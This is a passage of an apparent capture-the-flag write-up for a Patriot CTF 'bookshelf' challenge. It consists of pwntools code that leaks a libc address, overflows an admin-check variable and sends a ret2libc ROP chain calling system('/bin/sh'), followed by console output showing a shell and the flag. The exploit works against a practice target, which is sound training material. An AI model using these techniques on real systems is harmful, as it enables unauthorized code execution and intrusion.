 ```python
leak = p.clean()    # Read everything till now

leak = b''.join(word for word in leak.split(b' ') if word.startswith(b'0x'))    # Filter the text for the memory address

puts = int(leak, 16)
log.success('Puts found @ ' + hex(puts))

libc_base = puts - libc.symbols['puts']
log.success('libc base @ ' + hex(libc_base))

# GET ADMIN ACCESS
p.sendline(b'1')            # Write a book
p.sendline(b'y')            # Write an audiobook
p.sendline(b'A' * 100)      # Overwrite the admin access check variable.

# OVERFLOW ADMIN WRITE
log.info('Sending payload...')

p.sendline(b'3')     # Write an admin book

## Prepare the payload
offset = 56
rop = ROP(libc)

payload  = b''
payload += b'A' * offset
payload += p64( libc_base + rop.find_gadget(['ret']).address )
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( libc_base + next(libc.search(b'/bin/sh')) )
payload += p64( libc_base + libc.symbols['system'] )
# Since we are good programmers, let's also add a clean exit after buffer overflow :P
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( 0 )
payload += p64( libc_base + libc.symbols['exit'] )

p.sendline(payload)

log.success('Sent')
p.clean()

p.interactive()
```

```console
> python exploit.py
[+] Opening connection to chal.pctf.competitivecyber.club on port 4444: Done
[*] '/home/vulnx/CTFs/Patriot/bookshelf/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leaking puts...
[+] Puts found @ 0x7f423ca75bf0
[+] libc base @ 0x7f423ca00000
[*] Sending payload...
[*] Loaded 214 cached gadgets for '/home/vulnx/CTFs/Patriot/bookshelf/libc.so.6'
[+] Sent
[*] Switching to interactive mode
$ ls
flag.txt
$ cat flag.txt
PCTF{r3t_2_libc_pl0x_52706196}
```